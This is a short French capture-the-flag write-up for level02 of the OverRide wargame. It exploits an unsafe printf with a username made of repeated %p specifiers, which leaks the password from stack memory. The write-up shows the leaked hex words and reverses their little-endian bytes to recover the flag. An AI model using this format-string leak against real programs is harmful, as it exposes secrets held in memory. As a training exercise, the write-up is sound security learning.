 En lisant le code, on peut se rendre compte de plusieurs choses.

- Un read vient lire le contenu d'un fichier contenant le mot de passe.
- Un printf est utilisé quelque sinstructions plus tard.

La présence de ce printf nous permettra d'exploiter l'utilisation de printf afin de pouvoir afficher ce qui est lu en mémoire, comme par exemple le
contenu de notre read().

On peux taper %p pour afficher les pointeurs contenus dans le programme grâce à l'utilisation de ce printf non sécurisé.
Lorsque le programme nous demande de taper notre login, on va spammer les %p pour afficher ce qui est contenu en mémoire dans notre programme, ce qui donne le résultat suivant:

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

756e505234376848 (unPR47hH)
45414a3561733951 (EAJ5as9Q)
377a7143574e6758 (7zqCWNgX)
354a35686e475873 (5J5hnGXs)
48336750664b394d (H3gPfK9M)

Soluce: on lit les var à l'envers et on reverse (little endian)

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
